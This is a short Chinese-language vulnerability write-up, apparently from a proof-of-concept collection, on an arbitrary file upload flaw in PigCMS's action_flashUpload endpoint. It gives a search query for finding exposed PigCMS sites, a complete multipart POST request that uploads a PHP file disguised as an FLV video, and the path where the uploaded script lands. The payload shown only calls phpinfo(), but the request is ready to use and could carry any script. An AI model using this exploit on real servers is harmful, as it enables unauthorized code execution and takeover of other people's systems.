 # PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

pigcms

## 网络测绘

```
app.name="PigCMS"
```

## 漏洞复现

登陆页面

![image-20230828161452591](images/image-20230828161452591.png)

验证POC

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

![image-20230828161506565](images/image-20230828161506565.png)

```
/cms/upload/images/2023/08/11/1691722887xXbx.php
```

